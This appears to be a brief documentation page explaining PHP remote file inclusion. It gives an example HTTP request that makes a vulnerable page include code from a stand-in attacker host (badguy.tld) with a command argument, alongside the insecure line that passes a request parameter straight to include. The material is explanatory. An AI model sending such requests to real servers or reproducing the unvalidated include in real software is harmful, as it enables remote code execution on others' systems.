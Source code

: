 Code Injection
==============

.. contents::

PHP code injection
------------------

The attack, in the form of an HTTP request

::

        index.php?page=http://badguy.tld/marlwar.cmd?cmd=ls

Resulting PHP code

::

        <? include ($_GET[page]); ?>

causes the web server to act like a client and download the software in question
